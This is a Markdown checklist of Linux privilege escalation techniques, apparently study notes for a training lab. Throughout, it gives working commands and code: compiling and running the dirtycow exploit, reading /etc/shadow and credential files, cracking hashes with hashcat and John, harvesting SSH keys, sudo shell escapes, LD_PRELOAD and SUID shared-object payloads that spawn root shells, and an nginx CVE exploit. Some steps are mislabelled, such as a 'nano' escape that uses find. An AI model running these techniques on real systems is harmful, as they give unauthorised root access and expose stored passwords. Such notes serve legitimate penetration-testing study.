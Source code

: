 # Linux privesc

- [ ] ## Privilege Escalation - Kernel Exploits
- Download `linux-exploit-suggester.sh` script: `/linux-exploit-suggester/linux-exploit-suggester.sh`
- Compile and run `dirtycow` exploit:
```bash
gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
./c0w
```
- Change password: `passwd`
- Check user privileges: `id`

## Privilege Escalation - Stored Passwords (Config Files)**
- View VPN configuration: `cat /home/user/myvpn.ovpn`
- Note the "auth-user-pass" directive value in the config.
- View OpenVPN auth file: `cat /etc/openvpn/auth.txt`
- Search for passwords in Irssi config: `cat /home/user/.irssi/config | grep -i passw`

- [ ] **Privilege Escalation - Stored Passwords (History)**
- Search for passwords in bash history: `cat ~/.bash_history | grep -i passw`

- [ ] **Privilege Escalation - Weak File Permissions**
- List shadow file permissions: `ls -la /etc/shadow`
- View `/etc/passwd` file: `cat /etc/passwd`
- View `/etc/shadow` file: `cat /etc/shadow`
- Unshadow password file:
```bash
unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt
```
- Use hashcat to crack passwords:
```bash
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

- [ ] **Privilege Escalation - SSH Keys**
- Search for authorized_keys and id_rsa files:
```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```
- Set appropriate permissions on id_rsa: `chmod 600 id_rsa`
- Connect using SSH key: `ssh -i id_rsa root@<ip>`

- [ ] **Privilege Escalation - Sudo (Shell Escaping)**
- List sudo permissions: `sudo -l`
- Perform one of the shell escaping techniques:
- Execute nano with a shell:
  ```
  sudo find /bin -name nano -exec /bin/sh \;
  ```
- Use `awk` to spawn a shell:
  ```
  sudo awk 'BEGIN {system("/bin/sh")}'
  ```
- Create an Nmap script for shell execution:
  ```
  echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
  ```
- Execute a shell through sudo vim:
  ```
  sudo vim -c '!sh'
  ```

**Privilege Escalation - Sudo (Abusing Intended Functionality)**
- List sudo permissions: `sudo -l`
- Exploit a program that doesn't exist in ctfobins:
sudo apache2 -f /etc/shadow
- Provide the pasted root hash and crack it with John the Ripper:
echo '[Pasted Root Hash]' > hash.txt
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt

**Privilege Escalation - Sudo (LD_PRELOAD)**
- List sudo permissions: `sudo -l`
- Create a shared object for privilege escalation:
1. Open a text editor and type x.c:
  ```
  #include <stdio.h>
  #include <sys/types.h>
  #include <stdlib.h>
  void _init() {
      unsetenv("LD_PRELOAD");
      setgid(0);
      setuid(0);
      system("/bin/bash");
  }
  ```
- Compile and load the shared object:
  ```
  gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
  sudo LD_PRELOAD=/tmp/x.so apache2
  ```

**Privilege Escalation - SUID (Shared Object Injection)**
- Find SUID binaries: `find / -type f -perm -04000 -ls 2>/dev/null`
- Trace the `suid-so` binary to locate missing .so file:
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
- Create a shared object for privilege escalation:
mkdir /home/user/.config
cd /home/user/.config
- Create and compile a shared object (libcalc.c):
  ```c
  #include <stdio.h>
  #include <stdlib.h>
  static void inject() __attribute__((constructor));
  void inject() {
      system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
  }
  ```
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c

- Run the SUID binary to escalate privileges:
  ```
  /usr/local/bin/suid-so
  ```

**Privilege Escalation - SUID (Symlinks)**
- Identify installed nginx version: `dpkg -l | grep nginx`
- Exploit a known vulnerability (CVE-2016-1247):
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log

- Restart the system to trigger the exploit: `invoke-rc.d nginx rotate >/dev/null 2>&1`
